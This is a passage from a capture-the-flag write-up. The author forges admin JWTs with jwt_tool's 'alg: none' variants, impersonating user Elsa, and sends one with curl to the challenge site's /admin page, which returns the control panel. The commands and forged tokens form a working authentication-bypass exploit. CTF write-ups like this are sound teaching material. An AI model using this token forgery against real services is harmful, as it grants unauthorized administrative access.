 Interesting, we have "Elsa" there, and she is the admin! We can try and use her data to spoof the JWT:

```console
┌──(user@kali)-[/media/sf_CTFs/basmach/Thunderstorm_of_hail_and_fire]
└─$ python3 ~/utils/web/jwt_tool/jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InRlc3QiLCJyb2xlIjoidXNlciIsImNyZWF0ZWRBdCI6MTY4MTI5ODg3OH0.Uyo8lLg_UYGRWmfDFQpPivz3qSO-tJI0UXrzD35fSkI -X a -I -pc role -pv admin -pc username -pv Elsa -pc createdAt -pv 1386280800000

        \   \        \         \          \                    \
   \__   |   |  \     |\__    __| \__    __|                    |
         |   |   \    |      |          |       \         \     |
         |        \   |      |          |    __  \     __  \    |
  \      |      _     |      |          |   |     |   |     |   |
   |     |     / \    |      |          |   |     |   |     |   |
\        |    /   \   |      |          |\        |\        |   |
 \______/ \__/     \__|   \__|      \__| \______/  \______/ \__|
 Version 2.2.6                \______|             @ticarpi

Original JWT:

jwttool_cd8fa79b971c229e37fab44c8a162c03 - EXPLOIT: "alg":"none" - this is an exploit targeting the debug feature that allows a token to have no signature
(This will only be valid on unpatched implementations of JWT.)
[+] eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJ1c2VybmFtZSI6IkVsc2EiLCJyb2xlIjoiYWRtaW4iLCJjcmVhdGVkQXQiOjEzODYyODA4MDAwMDB9.
jwttool_06f32fcf5e937596242f10cf152bd768 - EXPLOIT: "alg":"None" - this is an exploit targeting the debug feature that allows a token to have no signature
(This will only be valid on unpatched implementations of JWT.)
[+] eyJ0eXAiOiJKV1QiLCJhbGciOiJOb25lIn0.eyJ1c2VybmFtZSI6IkVsc2EiLCJyb2xlIjoiYWRtaW4iLCJjcmVhdGVkQXQiOjEzODYyODA4MDAwMDB9.
jwttool_7604e6c944f9def4f693ba9ac91ec839 - EXPLOIT: "alg":"NONE" - this is an exploit targeting the debug feature that allows a token to have no signature
(This will only be valid on unpatched implementations of JWT.)
[+] eyJ0eXAiOiJKV1QiLCJhbGciOiJOT05FIn0.eyJ1c2VybmFtZSI6IkVsc2EiLCJyb2xlIjoiYWRtaW4iLCJjcmVhdGVkQXQiOjEzODYyODA4MDAwMDB9.
jwttool_8bb708abe567ec9bca046b784c743f4d - EXPLOIT: "alg":"nOnE" - this is an exploit targeting the debug feature that allows a token to have no signature
(This will only be valid on unpatched implementations of JWT.)
[+] eyJ0eXAiOiJKV1QiLCJhbGciOiJuT25FIn0.eyJ1c2VybmFtZSI6IkVsc2EiLCJyb2xlIjoiYWRtaW4iLCJjcmVhdGVkQXQiOjEzODYyODA4MDAwMDB9.
```

Let's try that:

```console
┌──(user@kali)-[/media/sf_CTFs/basmach/Thunderstorm_of_hail_and_fire]
└─$ curl 'https://arendelle.plagues-of-egypt.com/admin' -H 'Cookie: auth=eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJ1c2VybmFtZSI6IkVsc2EiLCJyb2xlIjoiYWRtaW4iLCJjcmVhdGVkQXQiOjEzODYyODA4MDAwMDB9.'
<html>
    <head>
        <title>Arendelle</title>
        <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bulma@0.9.3/css/bulma.min.css">
        <link rel="stylesheet" href="./static/style.css" />
        <link rel="icon" href="./static/icon.png">
    </head>
    <body>
        <nav class="navbar" role="navigation" aria-label="main navigation">
            <div id="navbar" class="navbar-menu">
              <div class="navbar-start">
                <a class="navbar-item" href="./"> Arendelle </a>
                <a class="navbar-item" href="./home"> Home </a>
                <a class="navbar-item has-text-weight-medium" href="./admin"> Control Panel </a>
              </div>
            </div>
```